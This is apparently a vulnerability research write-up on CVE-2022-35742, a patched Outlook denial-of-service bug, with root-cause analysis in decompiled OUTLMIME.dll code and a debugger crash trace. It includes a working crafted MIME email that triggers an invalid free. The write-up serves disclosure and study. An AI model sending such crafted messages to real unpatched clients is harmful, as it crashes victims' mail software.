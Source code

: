 # Introduction

---

Outlook's Denial of Service vulnerability was patched on Patch Tuesday in August 2022.

An attacker could trigger a vulnerability by sending a crafted email.

The vulnerability synchronizes with the mail server and the vulnerability occurs during MIME property parsing.

# RootCause

---

The PoC of the vulnerability is as follows.

The vulnerability occurs when `OUTLMIME.dll` handles `MIME` of `Content-Type`.

```cpp
Content-Type: multipart/signed;boundary="A"
Subject: MEOW

--A
Content-Type:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Type:application

--A--
```

Calculate the value length of the `Content-Type` using the following code.

```cpp
data = (char *)*((_QWORD *)a4 + 1);
if ( data )
{
  len = (unsigned int)a4[4];
  if ( !data[len] )
  {
    v25 = len + 1;
    value_len = -1;
    if ( (int)len + 1 >= (unsigned int)len )
      value_len = len + 1;
    v7 = v25 < (unsigned int)len ? 0x80070216 : 0;
    if ( v25 < (unsigned int)len )
      goto LABEL_58;
    a2->dword10 = len;
    goto set_flag;
  }
}
```

In the following code, process the value.

```cpp
set_flag:
  p_word8 = (void **)&a2->word8;
LABEL_41:
  dword3C = a2->dword3C;
  if ( value_len > dword3C )
  {
    Outlmime_CMimePropertyContainer_VariantValueLargerThanBuffer(*(_DWORD *)(v19 + 1152), value_len, dword3C);
    dword100 = a2->dword100;
    **if ( value_len > 0xAA )**
    {
      if ( (dword100 & 2) != 0 )
      {
        pvoid30 = a2->pvoid30;
      }
      else
      {
        a2->pvoid30 = 0i64;
        pvoid30 = 0i64;
        a2->dword3C = 0;
      }
      v29 = (void *)((__int64 (__fastcall *)(LPMALLOC, void *, _QWORD))ppMalloc->lpVtbl->Realloc)(
                      ppMalloc,
                      pvoid30,
                      value_len);
      if ( !v29 )
      {
        v7 = 0x8007000E;
        goto LABEL_58;
      }
      v30 = v40;
      **a2->dword100 |= 2u;**
      sub_18005F9D8(*(unsigned int *)(v30 + 1152), 1i64, value_len);
      **a2->pvoid30 = v29;**
      a2->dword3C = value_len;
    }
    else
    {
      if ( (dword100 & 2) != 0 )
      {
        ((void (__fastcall *)(LPMALLOC, void *))ppMalloc->lpVtbl->Free)(ppMalloc, a2->pvoid30);
        a2->dword100 &= ~2u;
      }
      Outlmime_CMimePropertyContainer_VariantValueFitsInScratchBuffer(*(_DWORD *)(v19 + 1152), value_len);
      a2->dword3C = 0xAA;
      **a2->pvoid30 = a2->gap40;**
    }
  }
	**memcpy(a2->pvoid30, data, value_len);**
  v31 = p_word8;
  a2->dword38 = value_len;
```

If the length of `Content-Type` is greater than 0xaa, the memory is allocated.  `a2->pvoid30` is initialized to the address of the memory allocated. And `a2->dword100` is OR calculated with 2.

If not, `a2->pvoid30` is initialized to `a2->gap40`.

Then copy the value to `a2->pvoid30`.

When processing `Content-Type` for the first time, the value length is greater than 0xaa and 2 flags are set.

However, when processing the second `Content-Type`, the value length is less than 0xaa, so the flag is not set.

After that, the value of each `Content-Type` is combined, where 2 flags are set, and `a2->pvoid30` is set to `a2->gap40`.

This causes a vulnerability when this memory is freed in the following code.

```cpp
v12 = (v3->byte100 & 2) == 0;
v3->qword110 = 0i64;
if ( !v12 && v3->qword30 )
{
  ((void (__fastcall *)(LPMALLOC))ppMalloc->lpVtbl->Free)(ppMalloc);// Free
  v3->qword30 = 0i64;
}
```

While processing the Content-Type above, 2 flags are set, and the variable `v3->qword30` point to `v3->gap40`. This creates a vulnerability by freeing unallocated pointers.

The following is memory information when the vulnerability occurs.

```cpp
Critical error detected c0000374
WARNING: This break is not a step/trace completion.
The last command has been cleared to prevent
accidental continuation of this unrelated event.
Check the event, location and thread before resuming.
(19a0.19a4): Break instruction exception - code 80000003 (first chance)
ntdll!RtlReportCriticalFailure+0x56:
00007ffe`0ae6f1d2 cc              int     3
0:000> k
 # Child-SP          RetAddr               Call Site
00 000000f1`463d9e50 00007ffe`0ae77f92     ntdll!RtlReportCriticalFailure+0x56
01 000000f1`463d9f40 00007ffe`0ae7827a     ntdll!RtlpHeapHandleError+0x12
02 000000f1`463d9f70 00007ffe`0ae7df01     ntdll!RtlpHpHeapHandleError+0x7a
03 000000f1`463d9fa0 00007ffe`0ad95bf0     ntdll!RtlpLogHeapFailure+0x45
04 000000f1`463d9fd0 00007ffe`0ad947b1     ntdll!RtlpFreeHeapInternal+0x4e0
05 000000f1`463da090 00007ffd`cbcb1b5d     ntdll!RtlFreeHeap+0x51
06 000000f1`463da0d0 00007ffd`cbcb18c8     OUTLMIME!CloseAllSockets+0x4d07d
07 000000f1`463da1e0 00007ffd`cbcaf79e     OUTLMIME!CloseAllSockets+0x4cde8
08 000000f1`463da2a0 00007ffd`cbcaf954     OUTLMIME!CloseAllSockets+0x4acbe
09 000000f1`463da2d0 00007ffd`cbc9e3e2     OUTLMIME!CloseAllSockets+0x4ae74
0a 000000f1`463da300 00007ffd`cbc9e384     OUTLMIME!CloseAllSockets+0x39902
0b 000000f1`463da330 00007ffd`cbce80b0     OUTLMIME!CloseAllSockets+0x398a4
0c 000000f1`463da360 00007ffd`cbc92350     OUTLMIME!MimeOleInetDateToFileTime+0xf430
0d 000000f1`463da390 00007ffd`cbc917a2     OUTLMIME!CloseAllSockets+0x2d870
0e 000000f1`463da3c0 00007ffd`cbc90512     OUTLMIME!CloseAllSockets+0x2ccc2
0f 000000f1`463da4a0 00007ffd`cbc90484     OUTLMIME!CloseAllSockets+0x2ba32
10 000000f1`463da4d0 00007ffd`cbce80b0     OUTLMIME!CloseAllSockets+0x2b9a4
11 000000f1`463da500 00007ffd`cbcf4a13     OUTLMIME!MimeOleInetDateToFileTime+0xf430
12 000000f1`463da530 00007ffd`cbd03678     OUTLMIME!MimeOleInetDateToFileTime+0x1bd93
13 000000f1`463dae90 00007ffd`cbd03b49     OUTLMIME!MimeOleInetDateToFileTime+0x2a9f8
14 000000f1`463dafe0 00007ffd`cbd0375c     OUTLMIME!MimeOleInetDateToFileTime+0x2aec9
15 000000f1`463db260 00007ff6`fa2264d7     OUTLMIME!MimeOleInetDateToFileTime+0x2aadc
16 000000f1`463db2a0 00007ff6`f9fccde5     outlook!HrGetAMapProgressObject+0x1ca2a7
17 000000f1`463db400 00007ff6`f9963006     outlook!HrSetOutlookSpecialFolderEntryID+0x181cb5
18 000000f1`463db4f0 00007ff6`f9961ce4     outlook!StdCoCreateInstance+0x43426
19 000000f1`463db530 00007ff6`f9963006     outlook!StdCoCreateInstance+0x42104
1a 000000f1`463db5e0 00007ff6`f9962cb8     outlook!StdCoCreateInstance+0x43426
1b 000000f1`463db620 00007ff6`f99f6312     outlook!StdCoCreateInstance+0x430d8
1c 000000f1`463df730 00007ff6`f99cc36e     outlook!HrEnsureIMManager+0x7f02
1d 000000f1`463df760 00007ff6`f9b4ddc2     outlook!HrGetDelegatorInfoSync+0x557de
1e 000000f1`463df7b0 00007ffe`0a377034     outlook!OlkGetResourceHandle+0x6692
1f 000000f1`463df7f0 00007ffe`0adc2651     KERNEL32!BaseThreadInitThunk+0x14
20 000000f1`463df820 00000000`00000000     ntdll!RtlUserThreadStart+0x21
```

# Exploit

---

[poc.mp4](src/poc.mp4)

# Links

---

- [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-35742](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-35742)
- [https://github.com/78ResearchLab/PoC/tree/main/CVE-2022-35742](https://github.com/78ResearchLab/PoC/tree/main/CVE-2022-35742)
- [https://www.zerodayinitiative.com/blog/2022/8/9/the-august-2022-security-update-review](https://www.zerodayinitiative.com/blog/2022/8/9/the-august-2022-security-update-review)